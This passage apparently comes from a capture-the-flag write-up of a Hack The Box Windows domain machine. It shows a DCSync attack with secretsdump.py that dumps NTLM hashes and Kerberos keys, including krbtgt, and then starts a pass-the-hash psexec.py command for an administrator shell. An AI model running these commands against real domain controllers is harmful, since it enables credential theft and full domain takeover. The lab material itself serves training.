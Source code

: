My preferred way to do a `DCSync attack` is using secretsdump.py, which allows me to run DCSync attack from my Kali box, provided I can talk to the DC on TCP 445 and 135 and a high RPC port. This avoids fighting with AV, though it does create network traffic.
I need to give it just a target string in the format [username]:[password]@[ip]:

    secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
    Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation
    
    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:<redacted>
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
    EGOTISTICAL-BANK.LOCAL\HSmith:<redacted>
    EGOTISTICAL-BANK.LOCAL\FSmith:1105:<redacted>
    EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:<redacted>
    SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:87347c253a9f1268f2475984cc1605ef:::
    [*] Kerberos keys grabbed
    Administrator:aes256-cts-hmac-sha1-96:42ee4a7abee32410f470fed37ae9660535ac56eeb73928ec783b015d623fc657
    Administrator:aes128-cts-hmac-sha1-96:a9f3769c592a8a231c3c972c4050be4e
    Administrator:des-cbc-md5:fb8f321c64cea87f
    krbtgt:aes256-cts-hmac-sha1-96:83c18194bf8bd3949d4d0d94584b868b9d5f2a54d3d6f3012fe0921585519f24
    krbtgt:aes128-cts-hmac-sha1-96:c824894df4c4c621394c079b42032fa9
    krbtgt:des-cbc-md5:c170d5dc3edfc1d9
    EGOTISTICAL-BANK.LOCAL\HSmith:aes256-cts-hmac-sha1-96:5875ff00ac5e82869de5143417dc51e2a7acefae665f50ed840a112f15963324
    EGOTISTICAL-BANK.LOCAL\HSmith:aes128-cts-hmac-sha1-96:909929b037d273e6a8828c362faa59e9
    EGOTISTICAL-BANK.LOCAL\HSmith:des-cbc-md5:1c73b99168d3f8c7
    EGOTISTICAL-BANK.LOCAL\FSmith:aes256-cts-hmac-sha1-96:8bb69cf20ac8e4dddb4b8065d6d622ec805848922026586878422af67ebd61e2
    EGOTISTICAL-BANK.LOCAL\FSmith:aes128-cts-hmac-sha1-96:6c6b07440ed43f8d15e671846d5b843b
    EGOTISTICAL-BANK.LOCAL\FSmith:des-cbc-md5:b50e02ab0d85f76b
    EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes256-cts-hmac-sha1-96:6f7fd4e71acd990a534bf98df1cb8be43cb476b00a8b4495e2538cff2efaacba
    EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes128-cts-hmac-sha1-96:8ea32a31a1e22cb272870d79ca6d972c
    EGOTISTICAL-BANK.LOCAL\svc_loanmgr:des-cbc-md5:2a896d16c28cf4a2
    SAUNA$:aes256-cts-hmac-sha1-96:dce1896599ad36d0a9fcf2a3cd2069ca86046b930c06c22e2876d375097833c2
    SAUNA$:aes128-cts-hmac-sha1-96:7dec3554d489a32299317d703423c428
    SAUNA$:des-cbc-md5:290d5dce1ccd2615
    [*] Cleaning up... 


<a id="org6565885"></a>

## Shells

I can use the administrator hash to WMI to get a shell as administrator:

    psexec.py egotistical-bank.local/administrator@10.10.10.175 -hashes <redacted>
    Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation
    
    